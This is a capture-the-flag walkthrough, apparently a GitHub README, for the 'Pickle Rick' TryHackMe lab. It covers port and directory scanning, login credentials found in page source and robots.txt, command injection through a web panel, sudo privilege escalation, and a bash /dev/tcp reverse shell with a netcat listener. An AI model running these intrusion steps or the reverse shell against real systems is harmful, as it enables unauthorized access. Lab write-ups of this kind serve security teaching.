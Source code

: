 # [Pickle Rick][1]
A Rick and Morty CTF. Help turn Rick back into a human!

This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

#### Scan the Machine
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -Pn <IP>`

![Nmap Scan](images/open_port.jpg)

Looks like we have two ports open: `22, 80`

> Let's check the webpage. The webpage is fascinating but nothing much to work with.

Checked the source code and found a `username`.

![Source Code](images/username.jpg)

Let's check the `robots.txt` file.

![Robots file](images/robots.jpg)
> I found some gibberish which can be a password.

I tried connecting to the machine via `ssh` using credentials -> `R1ckRul3s:Wubbalubbadubdub` but its didn't work.

Also, I had a GoBuster running -> `gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt -x php,txt,html`

![GoBuster Result](images/gobuster.jpg)
> One interesting result here is **login.php**

I then visited `http://<IP>/login.php` and I found a login panel.

![Login Page](images/login.jpg)
> I logged in with the credentials I got -> `R1ckRul3s:Wubbalubbadubdub` and it worked.

It seems like a Command Injection page. Let's try `ls -la`

![LS command](images/ls.jpg)
> Seems like we got our first ingredient `Sup3rS3cretPicjk3Ingred.txt`.

So I just opened the file in the browser and it worked.

![Less Command](images/first.jpg)

There is one more file which I found interesting was `clue.txt`

![Clue](images/clue.jpg)
> Hmm, not much of a clue.

I then checked the `home` directory. I see two directories `ubuntu` and `rick`.

![CD HOME](images/cd_home.jpg)

Let's check `rick` using `cd /home/rick; ls -la`

![Rick Home](images/cd_rick.jpg)
>  Baam! We have our second ingredient.

However, we cannot use `cat` or `head` or `tail`  as it is giving an error.

![Wrong CMD](images/wrong_cmd.jpg)
> Oh Rick! Why did you make things hard for yourselves!

But fortunately we can use `less` using `less /home/rick/second\ ingredient`

![Second Ingredient](images/second.jpg)

For third one I think we need to escalate privilege, it can be in `root` directory. First things first, let's check what programs we can run -> `sudo -l`

![Sudo L](images/sudo_l.jpg)
> Wow! We can run everything.

So, we can just do `sudo ls /root`

![Root LS](images/ls_root.jpg)
> YEAH! There is the third and the final ingredient.

Check the file using `less` command.

![Third](images/third.jpg)

With this third ingredient, we helped RICK to make potion to transform back to HUMAN.


### via Shell

When we had the access to the command panel, we could run `sudo -l` first and check. As we have all the permission.

Search for privilege escalation via `bash` on the site GTFOBins. Check the Reverse Shell command on the [GTFOBins for bash][3].  

Before running the script in the command panel, start a `nc` listener -> `nc -lvnp 4444`.

Run the script -> `bash -c 'exec bash -i &>/dev/tcp/<IP>/4444 <&1'`

![Bash Command](images/bash.jpg)

Now check your listener. You have a active connection.

![Access](images/access.jpg)

Now you can run commands like `cat`, `head`, etc.


[1]: https://tryhackme.com/room/picklerick
[2]: https://www.hackhunt.in/search/label/Nmap
[3]: https://gtfobins.github.io/gtfobins/bash/#reverse-shell
